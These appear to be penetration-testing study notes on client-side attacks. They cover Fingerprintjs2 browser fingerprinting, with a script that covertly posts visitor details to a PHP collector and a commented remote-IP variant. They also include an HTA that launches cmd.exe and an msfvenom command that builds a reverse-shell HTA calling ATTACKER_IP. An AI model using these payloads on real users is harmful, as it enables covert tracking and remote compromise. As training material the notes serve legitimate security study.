 # Browser Fingerprinting
## Tool: Fingerprintjs2 JavaScript library
[link here](https://github.com/LukasDrgon/fingerprintjs2/fork)
### sample: prints out the user-agent and platform components
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			document.write(details);
		});
	</script>
</html>
```

## parse user agent
https://developers.whatismybrowser.com/useragents/parse/#parse-useragent

## fingerprinting with AJAX: 
### Note:
*In this example,* the POST request is issued against the same server where the malicious web page is stored, therefore the URL used in the `xmlhttp.open` method does not specify an IP address.

A comment is added for when targeting a remote server
```html
<!doctype html>
<html>
	<script src="fingerprint2.js"></script>
	<script>
		var details = "<strong>Detailed Information: </strong><br />";
		new Fingerprint2().get(function(result, components){
			var values = components.map(function (component) { return component.value })
			for (var index in components){
				var obj = components[index];
				if(obj.key.toString() == "user_agent" || obj.key.toString() == "navigator_platform"){
					var line = "<strong>" + obj.key + "</strong>" + ": " + obj.value.toString() + "<br />";
					details += line;
				}
			}
			var xmlhttp = new XMLHttpRequest();
			xmlhttp.open("POST", "/fp/js.php");
			//example with a remote url
			//xmlhttp.open("POST", "http://20.20.20.129/fp/js.php");
			xmlhttp.setRequestHeader("Content-Type", "application/txt");
			xmlhttp.send(details);
		});
	</script>
</html>
```

## js.php for receiving the ajax: note: we have to `chown www-data:www-data /var/www/html/fp` directory to allow it to write the fingerprint data to a local txt file
```php
<?php
	$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
	$data .= file_get_contents('php://input');
	$data .= "---------------------------------\n\n";
	file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEND | LOCK_EX);
?>
```

## sample output: `cat fingerprint.txt`
```
Client IP Address: 127.0.0.1
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------

Client IP Address: 20.20.20.132
<strong>Detailed Information: </strong><br /><strong>user_agent</strong>: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0<br /><strong>navigator_platform</strong>: Linux x86_64<br />---------------------------------
```

---

# HTML Applications (HTA)

### sample hta
```html
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	<head>
	<body>
		<script>
			//closes the additional windows behind our command prompt
			self.close();
		</script>
	</body>
</html>
```

- sandbox protection of Internet Explorer, also called Protected Mode is enabled by default
- The victim can select Allow to permit the action,
	which will execute the **JavaScript code** and launch cmd.exe

### Generating HTA with `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f hta-psh -o evil.hta
```

### CVE-2017-0199

### [Demiguise Tool](https://github.com/nccgroup/demiguise)

---